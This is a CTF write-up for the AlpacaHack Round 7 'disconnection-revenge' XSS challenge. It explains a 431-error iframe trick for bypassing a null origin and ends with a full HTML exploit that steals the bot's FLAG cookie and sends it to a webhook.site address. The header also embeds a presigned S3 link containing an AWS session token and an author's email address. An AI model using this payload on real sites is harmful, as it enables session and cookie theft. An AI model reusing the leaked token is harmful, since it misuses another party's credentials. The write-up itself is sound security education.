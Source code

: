 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB4664JJ7RZE2%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T095014Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDEaCXVzLXdlc3QtMiJGMEQCIF2XWYeHVxnv%2BWQ%2BoJurYRnZ4iilfb0WZ3Sn27qWTW2DAiANBmCPdhTtg%2F4mGNyG531d%2FK8N4sJpFOnjIBiDSMWRTyqIBAjq%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F8BEAAaDDYzNzQyMzE4MzgwNSIMV29CvE%2FPtNTwx%2FzBKtwDAnM5eljDj509DFQXdaX6FODbXttFumbFdnSYuN4%2FRiUTvsdVyQLFRAkkPvTgtHqnbjYGG2WkE5DthKdAE1sPa%2FBCB3nA2FC82qjdqr5bJ7Wq83Q8M8YnkE4MUVOgJIYF0tnhjlcO3QOfEAVXP2wNOEu1mSd9bmxPuHbjJrT9KvAs5JDJub4MsilCGJBrvg2%2BBMM%2FOUxO5jPPA16a%2BsGvPOeVQ5eobsvhLdwYPpAO3dZugPgij7p4Z12s72nxdx24RA0YwNRgv5vNnrAo0YVjY75TUmml%2Bt6jJoLGGIN5GD1ZNX0uhpFlkMEoWCFg9cpKvT5FdoOE%2B9yXzW9%2FNhaxK3MkVSSBAzMWvlqkT7tLZY06gLT8FI1MomuKxaiiIRw%2Bwg8hxhqtqUnpXnYAwOsX7WFZ6RUgxRk4%2B%2Bx6fKY84l4A2bNr3c1LpQ6rlODqsb6TDfJjCYqJK2kikcnRXUOPjJm3FeWetBgqIZVXx0JK3iQ%2B3oIWqRDbNbBHZw3igemJmjugqzquUttH7Dt7TAQXidhNTQjfbKL821InfbnmZGnajiuinU6ggfjVHDgeJpcW7R86PXjvJYgDZwe9RhE6SKoPXIkiXnAeFaimVZ49OAkT51ph86oNzGM%2Bab0w0vHAwQY6pgEdHvFaRa1%2BjOUfSegLgld%2FaPPU57o%2FUMqpTrHP8li%2BjDmARZhktBRydzneSEB%2FjjxHjmoGCivszfvbM0DTguj91ZUnbi4t6MixN4tl86ntIqIa0P8KCwpApl95T1JYDx04A8XMc%2BmtqdcSOkpBaXPOubr%2Bpjmmvq0sVhydQSTqExezZEoT0HSafIr0bufiI%2B7oXcjaqg0zL5Pwm6t4XOOTRDet0i%2Fh\&X-Amz-Signature=ff64bb1e2bccc85e4475a85615e545087b425c9f5a320767677179db4f238c1c\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)

